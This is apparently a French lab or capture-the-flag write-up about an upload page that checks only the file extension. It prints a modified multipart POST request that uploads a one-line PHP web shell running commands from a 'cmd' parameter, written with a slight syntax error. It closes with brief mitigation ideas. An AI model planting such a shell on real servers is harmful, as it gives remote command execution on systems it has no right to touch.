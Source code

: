 <p>Sur la page ?page=upload# on peut uploader un fichier. Une vérification est faite sur l'extension du fichier, mais pas sur son mimeType ou son contenu. On peut envoyer un fichier avec du code tant qu'il a une extension en .jpg</p>
<p>J'ai ouvert le moniteur de réseau du navigateur, et j'ai uploadé un fichier jpeg valide. J'ai inspecté la requête post, et je l'ai modifiée. J'ai simplement changé l'extension du fichier dans le corps de la requête pour qu'il soit en php, et j'ai remplacé le contenu binaire de l'image pas </p>
<p>le corps de la requête : </p>
<p>
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="uploaded"; filename="JPEG_example_flower.jphp"
Content-Type: image/jpeg

<?php system($_GET(['cmd']); ?>
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------388438716520295718423503181162--
</p>
<p>le fichier que j'ai utilisé comme base est à côté de ce fichier</p>
<p>j'ai utilisé cette vidéo<li>https://www.youtube.com/watch?v=YAFVGQ-lBoM</li> pour faire mon attaque</p>
<p>pour mitiger cette attaque, on pourrait faire au moins une vérification de mimeType. On pourrait aussi ne pas exécuter ce qui devrait être une image, mais je ne sais pas comment faire. Apparement, il n'y a pas de consensus pour mitiger ce genre de faille</p>

